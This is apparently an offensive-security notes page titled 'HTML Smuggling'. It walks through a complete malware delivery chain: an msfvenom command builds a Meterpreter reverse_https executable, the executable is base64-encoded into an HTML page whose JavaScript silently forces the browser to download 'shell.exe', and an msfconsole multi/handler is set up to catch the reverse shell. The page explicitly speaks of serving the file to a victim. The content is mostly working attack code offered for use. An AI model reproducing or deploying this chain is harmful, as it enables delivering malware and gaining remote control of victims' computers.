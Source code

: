 ```yaml
---
title: HTML Smuggling
layout: default
parent: Client Side Execution
nav_order: 4
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines**

Add the whole thing to below and serve as html (This works for all browser):

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
if (navigator.msSaveBlob) {
    // Use IE11's APIs
    navigator.msSaveBlob(blob, fileName)
    
   // Other browsers
  } else {
    var a = document.createElement('a');
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
  }
</script>
</body>
</html>
```

Remember to ready the mfsconsole before serving it to the victim:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
